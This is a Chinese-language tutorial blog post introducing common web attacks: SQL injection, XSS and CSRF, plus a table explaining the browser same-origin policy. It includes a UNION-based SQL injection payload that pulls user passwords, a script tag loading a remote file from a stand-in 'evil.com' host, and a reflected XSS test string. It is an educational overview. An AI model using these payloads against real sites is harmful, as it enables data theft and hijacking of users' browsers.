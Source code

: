 title: 常见的Web攻击方式
date: 2015-10-06 17:20:46
categories:
- 安全
tags:
- 安全
---
这里主要介绍一些常见的web网站攻击的方式，以及概念，并不涉及如何防范， 关于防范后续再做记录

### 1. SQL注入攻击
通过在请求中加入SQL语句片段， 在后端拼接参数时候，会拼装到待执行的SQL中,来查询出更多数据
如：
```
 select username, email, desc from users where id=1;
```
在用户提交请求时候，会带入参数 ?id=1,来获取相应数据。若是不发用户会在参数中添加 :
```
?id=1 union select password, 1, 1 from users, 
```
通过以上参数将组成新的SQL语句如下： 
```
select username, email, desc from users where id=1 union select password,1,1 from users;
```
通过此SQL就能查出用户的密码了

### 2.XSS跨站脚本攻击(Cross Site Script)
发生在目标网站中目标用户的浏览器中，当用户浏览器渲染整个HTML文档的过程中，出现了不被预期的脚本指令并执行时， XSS就会发生。
一般通过注入类似下面的代码引入第三方域上的脚本资源：
```
<script src="http://www.evil.com/xss.js"></script>
```
以上方式有原因如下：

1. 攻击代码容易控制
2. 利用script标签本身就可以嵌入第三方资源的特性，就突破了浏览器的同源策略
#### XSS的类型
1. **反射性XSS(非持久型XSS)**: 发出请求时，XSS代码出现在URL中，作为输入提交到服务器，服务器解析后在响应内容中出现XSS代码， 最后浏览器解析执行。如：若服务器端将参数x不做任何过滤就直接输出
    ```
    http://www.test.com?x=<script>alert(1)</script>
    ```
    那么```<script>alert(1)</script>```就会输出到响应体中，浏览器就会解析执行
2. **存储型XSS(持久型XSS)**
3. **DOM XSS**
##### 浏览器的同源策略
    同源策略： 不同域的客户端脚本在没有明确授权的情况下，不能读写对方的资源
1. 如何区分不同域域同域栈 
    同域： 需要满足**同协议，同域名， 同端口**，才能叫做同域： 如
    基准域`http://www.test.com`

    | 站点 | 是否同域| 原因
    |------|---------|-----
    |https://www.test.com | 不同域 | 协议不同， http与https是不同的协议
    |http://blog.test.com|不同域|域名不同，blog与www是不同的子域
    |http://test.com |不同域|域名不同，顶级域域www子域不是一个概念
    |http://www.test.com:8080|不同域|端口不同，8080与默认80为不同端口
    |http://www.test.com/blog/|同域|满足
### 3. CSRF 跨站请求伪造
    通常在使用XSS时，需要目标站点有XSS漏洞，也就是可以执行请求中的脚本代码。若是无XSS漏洞，则无法完成攻击。而CSRF就是在不同域目标网站的站点B中，构造一个访问目标站点的请求，而诱使用户进入构造的B站点中，发起伪造的请求。
    起其好处是： 可以做到无脚本Javascript参与，轻松绕过不同域的跨域请求问题。